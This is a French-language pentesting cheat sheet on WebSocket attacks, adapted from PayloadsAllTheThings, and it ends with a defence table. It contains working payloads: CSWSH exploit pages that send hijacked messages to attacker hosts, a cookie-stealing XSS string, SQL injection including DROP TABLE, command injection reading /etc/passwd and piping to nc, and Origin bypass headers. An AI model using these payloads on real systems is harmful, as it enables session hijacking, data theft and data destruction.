

# 🔌 Web Sockets — attaques

> [!info] **En 1 phrase**
> WebSockets = canal **full-duplex persistant** (bi-directionnel, basse latence) entre un navigateur et un serveur.
> Le handshake HTTP n'est **pas protégé par défaut** (Origin ignoré, auth via cookies) → **CSWSH**, injection dans les messages,
> MITM si `ws://`. Souvent utilisé pour chat, notifs temps réel, trading, jeux.
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Web%20Sockets/README.md)**

---

## 🎯 Concept



> [!info] 💡 **Pourquoi c'est différent de HTTP**
> Une fois le `101` obtenu, **plus de requête/réponse** : le client et le serveur poussent des frames
> n'importe quand. Les protections HTTP classiques (CSRF tokens, CORS, auth par requête) ne s'appliquent pas
> au contenu des frames → chaque message doit être traité comme une **requête indépendante**.

---

## 📜 Le protocole (rappel 101)

### Handshake : HTTP d'abord, puis upgrade

```http
GET /chat HTTP/1.1
Host: example.com:80
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==
Sec-WebSocket-Version: 13
Origin: https://example.com
```

```http
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: s3pPLMBiTxaQ9kYGzzhZRbK+xOo=
```

> [!warning] ⚠️ **Le point d'attaque n°1** : `Sec-WebSocket-Key` est juste un nonce pour l'accept (SHA1 + base64),
> **pas une authentification**. L'**Origin** est le SEUL contrôle anti-CSWSH de la spec — s'il n'est pas vérifié → CSWSH.

### Frames & schémas

| Élément | Détail |
|---|---|
| **Frames** | Texte (`opcode 0x1`) ou binaire (`0x2`), masquées par le client (RFC 6455). |
| `ws://` | **Clair** (port 80) → sniffable / MITMable en transit. |
| `wss://` | **TLS** (port 443) → chiffré, obligatoire pour toute donnée sensible. |
| Endpoints | `/ws`, `/websocket`, `/socket.io/`, `/chat`, `/realtime`, `/live`... souvent dans le JS de l'app ou la doc API. |
| Socket.IO | Surcharge de WebSocket (namespaces, events, fallback polling) — même surface d'attaque. |

### Reconnaissance

```bash
# Chercher les endpoints dans le JS du front
grep -oE "wss?://[^\"']+|/socket\.io|/ws[^\"']*" app.js bundle.js

# Browser : console → regarder Network > WS (frames en direct)
# Burp : Proxy history → filtrer sur la colonne WebSocket / type Upgrade
```

---

## 🎭 Attaques côté client

### Cross-Site WebSocket Hijacking (CSWSH)

Si le handshake n'exige pas de **CSRF token / nonce**, le navigateur envoie **automatiquement les cookies**
vers le domaine cible lors d'une connexion cross-origin → l'attaquant **détourne la session WebSocket** de la victime.

```html
<!-- Exploit hébergé sur attacker.example.net -->
<script>
  // 2e argument = subprotocol si l'app en exige un (Sec-WebSocket-Protocol)
  ws = new WebSocket('wss://vulnerable.example.com/messages');
  ws.onopen = function start(event) {
    ws.send("HELLO");
  }
  ws.onmessage = function handleReply(event) {
    // Exfiltration des réponses vers le serveur attaquant
    fetch('https://attacker.example.net/?' + event.data, {mode: 'no-cors'});
  }
  ws.send("Some text sent to the server");
</script>
```

```html
<!-- Variante : exfil par image (si pas d'accès à fetch) -->
<script>
  ws = new WebSocket('wss://vulnerable.com/ws');
  ws.onmessage = function (e) {
    new Image().src = 'https://attacker.com/x?d=' + encodeURIComponent(e.data);
  };
</script>
```

> [!warning] ⚠️ **fetch / XMLHttpRequest ne peuvent PAS ouvrir un WebSocket** (API du navigateur bloquée pour eux).
> L'exploit passe obligatoirement par `new WebSocket()`. En revanche un `fetch` peut servir à **envoyer un GET cross-origin**
> pour détecter si le serveur répond au handshake (code 101) → confirmer l'absence de vérification d'Origin.

```html
<!-- Détection : le serveur répond-il 101 à un handshake cross-origin ? -->
<script>
  fetch('https://vulnerable.com/ws', {
    headers: { 'Upgrade': 'websocket', 'Connection': 'Upgrade',
               'Sec-WebSocket-Key': 'dGhlIHNhbXBsZSBub25jZQ==', 'Sec-WebSocket-Version': '13' }
  }).then(r => console.log(r.status));   // 101 = vulnérable
</script>
```

### MITM : `ws://` vs `wss://`

```text
ws:// (clair)  →  interception à la volée par ARP spoofing / WiFi malveillant / proxy
wss:// (TLS)   →  nécessite un cert valide, MITM beaucoup plus dur

Contrôle en pentest : s'assurer que les endpoints SENSIBLES (auth, messages, données) passent en wss://.
Un site en HTTPS qui garde des sockets en ws:// = data leak + injection possible du flux.
```

### XSS via les messages

Le serveur (ou un autre client) peut envoyer du contenu **non échappé** qui se retrouve injecté dans le DOM.

```html
<!-- Serveur envoie : {"username":""} -->
<!-- Si le front fait innerHTML sans sanitize → XSS sur tous les clients connectés -->
```

```html
<!-- PoC : dans Burp Repeater (WebSocket), envoyer en message -->
{"type":"message","data":{"text":"<script>fetch('https://attacker.com/?c='+document.cookie)</script>"}}
```

---

## 🛠️ Attaques côté serveur

### Injection dans les messages (SQLi / commande)

Le contenu des frames doit être traité comme un **input HTTP** : il est souvent passé à des requêtes SQL,
des commandes OS, des templates... sans validation.

```json
{"type":"message","data":{"text":"' OR 1=1 --"}}
{"type":"message","data":{"text":"' UNION SELECT username,password FROM users--"}}
{"type":"search","query":"'; DROP TABLE messages;--"}
```

```json
{"cmd":"id"}
{"command":"cat /etc/passwd"}
{"action":"ping","host":"127.0.0.1; whoami"}
{"hostname":"$(id) | nc attacker 4444"}
```

> [!tip] 💡 **Chaîner avec sqlmap** : utilise `ws-harness.py` (cf. Outils) qui expose le flux WebSocket en proxy HTTP
> → on attaque ensuite le socket avec `sqlmap -u http://127.0.0.1:8000/?fuzz=test --tamper=base64encode --dump`.

### Auth manquante / faillible

```text
- Le handshake authentifie (cookie/session) MAIS les messages ne sont jamais re-vérifiés
  → tester : ouvrir un 2e socket avec la session d'un autre user ? / rejouer des frames volées.
- Auth dans le message : {"auth":"session","sessionId":"<token>"} → voler/brute ce token.
- Prédiction : si la session n'est checkée qu'à l'ouverture → une session expirée garde le socket vivant (reconnection).
- Test : envoyer une frame d'un user A dans le socket de B (IDOR par messages) → {"userId":2,"action":"read"}.
```

### Énumération

```python
# Bruteforce de types d'événements / noms de channels
# Socket.IO : namespace + event dans la frame
{"event":"admin:getUsers","data":{}}
{"event":"debug","data":{}}
{"event":"config","data":{}}
{"event":"__proto__","data":{}}      # prototype pollution via events
```

```bash
# Détecter les erreurs de parsing = fuite d'info
# Envoyer du JSON invalide → l'erreur révèle souvent les handlers / la stack
not-json
{"type":
{"type":"test","data":{}}
```

---

## 🌐 Origine non vérifiée

### Tester l'en-tête Origin

```text
1. Connecter le socket avec l'Origin LÉGITIME → OK (baseline).
2. Refaire le handshake avec un Origin attaquant → 101 accepté = vulnérable au CSWSH.
3. Tester Origin: null (sandbox, iframe, certains navigateurs) → souvent accepté alors que c'est anormal.
4. Vérifier si le serveur compare le HOST au lieu de l'Origin (bypass avec un mauvais Host).
5. Regarder si la check n'exige qu'un SUFFIXE : https://evil.com/example.com → bypass.
```

```bash
# wscat avec un Origin arbitraire
wscat -c wss://target/ws --header "Origin: https://attacker.example.net"
# → si ça connecte sans erreur = pas de validation d'Origin
```

```bash
# Python
python -c "from websocket import create_connection; ws=create_connection('wss://target/ws', origin='https://attacker.example.net'); print('connecté', ws.recv())"
```

> [!warning] ⚠️ **Piège classique** : les cookies SameSite ne sauvent pas grand-chose en WS —
> SameSite=Lax n'empêche PAS l'envoi des cookies sur une connexion WebSocket cross-site (pas de navigation top-level).
> Il faut une **validation explicite d'Origin côté serveur**.

### Payloads de contournement Origin

```http
Origin: null
Origin: https://attacker.com
Origin: https://target.com.attacker.com
Origin: https://target.com@attacker.com
Origin: https://attacker.com/target.com
Origin: https://attacker.com?target.com
```

---

## 🔀 Subprotocol confusion

Le client peut demander des sous-protocoles via `Sec-WebSocket-Protocol` (2e argument du constructeur JS).
Si le serveur accepte n'importe lequel → desambiguïsation de rôles, injection dans le handler.

```html
<script>
  // Spécifier un subprotocol arbitraire
  ws = new WebSocket('wss://target/ws', 'admin');
  ws.onopen = () => ws.send('ping');
</script>
```

```http
GET /ws HTTP/1.1
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==
Sec-WebSocket-Version: 13
Sec-WebSocket-Protocol: chat, chat.superchat, admin
Origin: https://target.com
```

```bash
# Liste de subprotocols à fuzzer
wscat -c ws://target/ws --protocol "admin,debug,superuser,root"
```

> [!tip] 💡 Si le handshake de l'app exige un subprotocol, il faut le **rejouer exactement**
> dans l'exploit CSWSH (`new WebSocket(url, 'leprotocole')`) sinon la connexion échoue avant l'attaque.

---

## 🧰 Outils

### Burp Suite

```text
- Proxy > HTTP history : les handshakes (101) et les frames WebSocket apparaissent en filtrant par extension/hôte.
- Repeater : requête Upgrade → clic droit "Connect to WebSocket" → onglet dédié pour envoyer/modifier les frames.
- Intercept : on peut modifier les frames à la volée si "Intercept WebSocket messages" est activé.
- Extension Socketsleuth (snyk) : compléments pour pentester les apps WebSocket.
- websocket-turbo-intruder (PortSwigger) : fuzzer les messages en Python custom.
```

### wscat

```bash
npm install -g wscat
wscat -c wss://target/ws
wscat -c ws://target:8080/chat --header "Origin: https://attacker.com"
wscat -c wss://target/socket.io/?EIO=4\&transport=websocket -p admin
```

### Python — websocket-client

```python
from websocket import create_connection

ws = create_connection("ws://target:8080/chat", origin="https://target.com")
ws.send('{"type":"message","data":{"text":"hello"}}')
print(ws.recv())
ws.close()
```

### wsrepl (Doyensec) — REPL d'audit

```powershell
pip install wsrepl
wsrepl -u wss://target/ws -P auth_plugin.py
# Hooks Python : init, on_message_sent, on_message_received → automatisation + reconnection auto
```

### ws-harness.py — pont WebSocket → HTTP (pour sqlmap/burp)

```powershell
python ws-harness.py -u "ws://dvws.local:8080/authenticate-user" -m ./message.txt
```

```json
{ "auth_user":"dGVzda==", "auth_pass":"[FUZZ]" }
```

```bash
sqlmap -u http://127.0.0.1:8000/?fuzz=test --tables --tamper=base64encode --dump
```

---

## 🔍 Détection & Défense

| Réponse | Détail |
|---|---|
| **Vérifier l'Origin** | Allowlist stricte (schéma + host + port), refuser `null`, suffixe et host-only. C'est LA défense anti-CSWSH. |
| **Token CSRF / nonce au handshake** | Exiger un token (dans URL ou header) en plus des cookies à l'Upgrade. |
| **Auth par message** | Vérifier la session à **chaque frame**, pas seulement à l'ouverture. |
| **`wss://` obligatoire** | TLS partout (même sur les endpoints "internes"), jamais de données sensibles en clair. |
| **Valider les messages** | Treat chaque frame comme un input HTTP : validation, sanitization, length limits, types stricts. |
| **Input validation serveur** | Requêtes paramétrées / whitelist d'événements, jamais de concaténation dans SQL/shell. |
| **Moindre privilège** | Handlers isolés, pas de privilèges BDD/OS superflus, sandbox des scripts. |
| **Surveillance** | Logs des handshakes cross-origin, spikes de connexions, frames malformées, rate limiting + reconnect avec re-auth. |
| **Expiration de session** | Fermer le socket à l'expiration du cookie/du JWT (sinon canal vivant post-logout). |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Différence clé avec HTTP**
> HTTP = stateless, chaque requête est indépendante, les protections (CORS, CSRF) sont par-requête.
> WebSocket = connexion longue + cookies envoyés à l'handshake → si l'Origin n'est pas vérifiée, toute la session est récupérable.

> [!tip] 💡 **CSWSH vs CSRF**
> CSRF = forcer une **action HTTP** (POST qui change l'état). CSWSH = détourner **tout le canal bidirectionnel**
> et lire les réponses du serveur (exfiltration). CSWSH est plus grave : l'attaquant voit les données en temps réel.

> [!warning] ⚠️ **Pièges**
> - `SameSite=Lax` ne bloque pas les cookies sur le handshake WebSocket cross-site → toujours valider l'Origin.
> - `Origin: null` (iframes sandboxées, `file://`) est souvent **accepté à tort** → le refuser.
> - Le 2e paramètre de `new WebSocket(url, subprotocol)` doit matcher celui de l'app, sinon handshake KO.
> - Les messages ne sont **pas** soumis à CORS : les protections du navigateur ne jouent plus une fois le `101` reçu.
> - Vérifier qu'une **session expirée** ferme bien le socket (reconnection = nouvelle auth, pas de réutilisation).
> - Capturer les frames dans Burp : activer **l'interception WebSocket** et regarder l'onglet dédié du Repeater (pas l'HTTP history).

---

## 🔗 Liens

- [[XSS (Cross-Site Scripting)|🖼️ XSS]]
- [[CORS|🌐 CORS]]
- [[CSRF|🔄 CSRF]]
- [[Injection SQL|💾 Injection SQL]]
- [[Injection de commandes|🐚 Injection de commandes]]
- → Note complète : [[03 - Exploitation Web|🌍 Exploitation Web]]
- 📚 Source : [PayloadsAllTheThings — Web Sockets](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Web%20Sockets/README.md)
- 🧪 Labs : [PortSwigger — WebSocket security](https://portswigger.net/web-security/websockets)
